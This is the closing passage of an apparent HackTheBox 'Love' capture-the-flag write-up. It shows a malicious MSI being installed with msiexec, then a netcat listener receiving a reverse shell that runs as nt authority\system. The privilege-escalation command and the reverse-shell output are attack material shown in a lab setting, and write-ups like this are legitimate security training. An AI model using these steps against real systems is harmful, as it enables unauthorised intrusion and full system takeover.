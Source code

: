 Now set up a listener on the specified port and cross your fingers.

```
C:\xampp\htdocs\omrs\images>msiexec /i "C:\xampp\htdocs\omrs\images\pwnersec.msi"
msiexec /i "C:\xampp\htdocs\omrs\images\pwnersec.msi"
```

```
┌──(root💀nehal)-[~]
└─# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.239] 52866
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

And we get `administrator` on the system. You can now read the root flag too.

So that was **LOVE** from **HackTheBox**. 

**Thanks** for reading this far. I hope you liked it.

I will see you in the next write-up. **PEACE**.
